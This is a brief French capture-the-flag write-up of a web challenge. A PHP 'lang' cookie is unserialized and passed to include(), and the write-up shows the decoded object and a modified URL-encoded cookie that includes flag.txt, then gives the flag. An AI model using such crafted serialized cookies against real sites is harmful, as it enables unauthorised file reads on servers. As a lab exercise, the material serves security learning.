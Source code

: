 # WEB 50 - Much Serie Very Analyse


Un challenge très simple, en regardant la source disponible nous voyons qu’un cookie lang est désérialisé.

Cette désarialisation entraîne l’exécution de include($this->lang);.
En sélectionnant français comme langue pour le site, nous obtenons ce cookie:


> O%3A4%3A%22Lang%22%3A1%3A%7Bs%3A10%3A%22%00Lang%00lang%22%3Bs%3A6%3A%22fr.
php%22%3B%7D



Il est encodé sous forme d’URL, en le décodant on obtient :

> O:4:'Lang':1:{s:10:'\ x00Lang\ x00lang';s:6:'fr.php';}



Avec fr.php qui est le fichier à inclure et 6 la longueur du nom du fichier.
Nous voulons inclure flag.txt, il suffit de modifier les paramètres décris plus haut:


> O%3A4%3A%22Lang%22%3A1%3A%7Bs%3A10%3A%22%00Lang%00lang%22%3Bs%3A8%3A%22fla
g.txt%22%3B%7D



Nous obtenons **ese{D4mn_PhP_Object}**.